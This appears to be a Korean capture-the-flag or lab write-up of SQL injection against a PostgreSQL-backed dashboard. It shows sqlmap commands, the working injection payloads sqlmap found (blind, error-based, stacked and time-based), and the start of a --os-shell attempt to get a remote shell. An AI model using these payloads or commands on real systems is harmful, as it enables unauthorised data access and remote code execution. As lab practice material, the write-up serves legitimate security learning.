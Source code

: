 자세한 테스트를 위해 sqlmap으로도 확인해보았다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# sqlmap -u 'http://10.129.107.51/dashboard.php?search=1' --cookie="PHPSESSID=sfbh6um3n94qpnm05vaq842sss" dbs
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.11#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:33:44 /2024-02-26/
...
sqlmap identified the following injection point(s) with a total of 55 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=1' AND (SELECT (CASE WHEN (4027=4027) THEN NULL ELSE CAST((CHR(99)||CHR(105)||CHR(66)||CHR(73)) AS NUMERIC) END)) IS NULL-- TImU

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=1' AND 6785=CAST((CHR(113)||CHR(122)||CHR(122)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (6785=6785) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(98)||CHR(98)||CHR(113)) AS NUMERIC)-- zqts

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries
    Payload: search=1';SELECT PG_SLEEP(5)-- pljM

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=1' AND 3067=(SELECT 3067 FROM PG_SLEEP(5))-- SpUa
---
[20:34:42] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[20:34:46] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.129.107.51'

[*] ending @ 20:34:46 /2024-02-26/
```

그러던 중 sqlmap에 os-shell이란 인자가 있음을 알았고, 해당 인자를 사용하면 원격으로 쉘을 연결할 수 있게 도와준다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# sqlmap -u 'http://10.129.107.51/dashboard.php?search=1' --cookie="PHPSESSID=sfbh6um3n94qpnm05vaq842sss" --os-shell
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
[21:16:05] [INFO] fingerprinting the back-end DBMS operating system
[21:16:07] [INFO] the back-end DBMS operating system is Linux
```